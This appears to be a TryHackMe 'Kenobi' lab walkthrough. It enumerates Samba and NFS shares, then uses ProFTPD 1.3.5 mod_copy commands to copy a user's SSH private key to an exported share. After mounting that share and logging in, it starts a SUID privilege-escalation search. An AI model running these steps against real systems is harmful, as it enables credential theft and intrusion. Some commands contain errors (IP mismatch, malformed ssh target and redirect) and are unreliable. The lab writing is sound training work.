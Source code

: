 # Kenobi
* Access a Samba share, manipulate a vulnerable version of proftpd to gain initial access and escalate privileges to root via an SUID binary.
## Enumerate Samba for Shares
* Samba is standard Windows interoperabiliy suite for Linux.
* Allows users to access files, printers.
* AKA network file system.
* Based on client / server protocol of Server Message Block (SMB).
  * SMB only developed for Windows.
* SMB uses TCP/445 and TCP/139.

| Port | Usage
| --- | ---
| 139 | SMB originally ran on top of NetBIOS using port 139. NetBIOS is older transport layer that allows Windows to talk to another on same network.
| 445 | Later versions of SMB (after Windows 2000) use port 445 on top of TCP stack. Using TCP allows SMB to work over the Internet.

#### 1. Enumerate target for SMB Shares.
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN 10.10.233.83_smb_scan.nmap 10.10.233.83

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-22 09:16 GMT
Nmap scan report for 10.10.233.83
Host is up (0.023s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.233.83\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.233.83\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.233.83\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 4.55 seconds
```
* `smbclient` alreadt intalled on most Linux distributions.
#### 2. Inspect SMB share.
```
smbclient //10.10.233.83/anonymous
```
#### 3. Recursively download SMB share.
* Submit username and password as nothing.
```
smbget -R smb://10.10.233.83/anonymous

Password for [guest] connecting to //anonymous/10.10.233.83: 
Using workgroup WORKGROUP, user guest
smb://10.10.233.83/anonymous/log.txt                                            
Downloaded 11.95kB in 3 seconds
```
* Nmap port scan of target showed that TCP/111 is running `rpcbind` service.
* rpcbind is server that converts remote procedure call (RPC) program number into universal addresses.
* When RPC service is started it tells rpcbind the address at which it is listening and the RPC program number it is prepared to serve.
  * TCP/111 is access to NFS in this example.
#### 4. Use nmap scripts to enumerate NFS.
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.233.83

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836520.0  6877108.0  22%   16.0T        32000
MAC Address: 02:51:8B:05:9C:4F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds
```
## Gain Initial Access with ProFtpd
* ProFtpd is OSS FTP server for Linux and Windows.
* Vulnerable in past software versions.
#### 1. Get version of ProFtpd using netcat.
```
nc 10.10.233.83 21

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.233.83]
```
#### 2. Use searchsploit to find exploits
* Searchsploit is CLI search tool for exploit-db.com
```
searchsploit proftpd 1.3.5
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                     | linux/remote/36742.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 
* ProFtpd 1.3.5 [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) vulnerable to exploit.
* mod_copy implements **SITE CPFR** and **SITE CPTO** commands.
* Unauthenticated client can use commands to copy files from remote filesystem to chosen destination.
* log.txt shows that FTP service is running as `Kenobi` user in this example.
```
# Set the user and group under which the server will run.
User				kenobi
Group				kenobi
```
* log.txt shows that SSH key generated for Kenobi user.
```
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
```
#### 3. Copy Private key Using SITE CPFR and SITE CPTO Commands.
```
nc 10.10.233.83 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.233.83]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
```
* Earlier nmap NFS enumeration scan showed that `/var` directory is mounted.
* Copy Kenobi user's private key to `/var/tmp` directory.
```
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
#### 4. Mount `/var/tmp` Directory
* Create network mount.
```
mkdir /mnt/kenobi_nfs
mount 10.10.233.82:/var /mnt/kenobi_nfs
ls -la /mnt/kenobi_nfs
```
#### 5. Get Private Key.
```
cp /mnt/kenobi_nfs/tmp/id_rsa .
sudo chmod 600 id_rsa
```
#### 6. Login to Kenobi user's account.
```
ssh -i id_rsa kenobi_10.10.233.83
```
 * `-i` selects identify file (private key). 
## Privilege Escalation with Path Variable Manipulation
* ![LN2uOCJ](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/ae6edfe3-b630-4eef-abd2-811750f7e0e2)

| Permission | On Files | On Directories
| --- | --- | ---
| SUID bit | User executes file with permissions of *file* owner. |
| SGID bit | User executes file with permission of *group* owner. | File created in directory gets the same group owner.
| Sticky bit | No meaning | Users are prevented from deleting files from other users.

* SUID bits can be dangerous.
* Some binaries such as `passwd` must be run with elevated privileges to rest a user's password.
* Other custom files with SUID bit set can lead to issues.
* Search system for binaries with SUID bit set.
```
find / -perm -u=s -type f >2/dev/null
```
